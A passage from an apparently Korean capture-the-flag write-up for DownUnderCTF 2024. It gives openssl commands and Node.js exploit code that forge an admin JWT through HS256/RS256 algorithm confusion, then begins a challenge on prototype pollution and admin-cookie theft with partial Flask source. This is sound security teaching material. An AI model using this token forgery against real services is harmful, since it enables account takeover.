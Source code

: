 ```bash
openssl s_client -connect i-am-confusion.2024.ductf.dev:30001 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
openssl rsa -inform PEM -in pubkey.pem -pubin -RSAPublicKey_out -outform PEM > pubkey.rsa
```       
       
RSA Public Key를 추출한 후, HS256 알고리즘과 RSA Public Key를 사용해 `{'user': 'admin'}` 페이로드 값을 갖는 토큰을 생성하여 인증하면 admin 계정에 접속이 가능하다.    
       
대회 당시, HS256 알고리즘의 대칭키로 x509 Public Key를 사용하여 삽질을 하다가 팀원분이 PKCS#1 RSA Public Key를 사용하여 해결할 수 있었다.       
     
https://github.com/nu11secur1ty/rsa_sign2n/blob/main/jwt_forgery.py    

토큰 두 개를 넘기면 x509.pem, pkcs1.pem 공개키를 만들어주는 툴   
                  
### Exploit Code     
```javascript 
const jwt = require("jsonwebtoken")
var fs = require("fs")

var pub = fs.readFileSync("pubkey.rsa");
token = jwt.sign({ 'user': 'admin' }, pub, { algorithm: 'HS256' });
console.log(token);

fetch("https://i-am-confusion.2024.ductf.dev:30001/admin.html",
    { "headers": { "Cookie": "auth=" + token } }
).then((res) => { return res.text() }).then((res) => { console.log(res) })    
```    

### Flag 
DUCTF{c0nfus!ng_0nE_bUG_@t_a_tIme}     
      

<a id="co2v2"></a>           
      
# co2v2     
           
59 solved / 222 pts      
       
<a href="#co2">co2</a> 문제의 업그레이드 버전으로 병합 과정에서 Prototype pollution 취약점은 동일하게 발생하고, 스크립트를 실행시켜 admin 계정의 쿠키 값을 탈취하는 문제였다.      

```python
...
@app.route('/')
def index():
    posts = BlogPost.query.filter_by(is_public=True).all()
    template = template_env.env.get_template("index.html")    
    return template.render(posts=posts, current_user=current_user, nonce=g.nonce)


@app.route('/register', methods=['GET', 'POST'])
def register():
    if current_user.is_authenticated:
        return redirect("/dashboard")
    if request.method == "POST":
        hashed_password = generate_password_hash(request.form.get("password"), method='sha256')
        new_user = User(username=request.form.get("username"), password=hashed_password)
        db.session.add(new_user)
        db.session.commit()
        return redirect("/login")
    return render_template("register.html", nonce=g.nonce)

@app.route('/login', methods=['GET', 'POST'])
def login():
    if current_user.is_authenticated:
```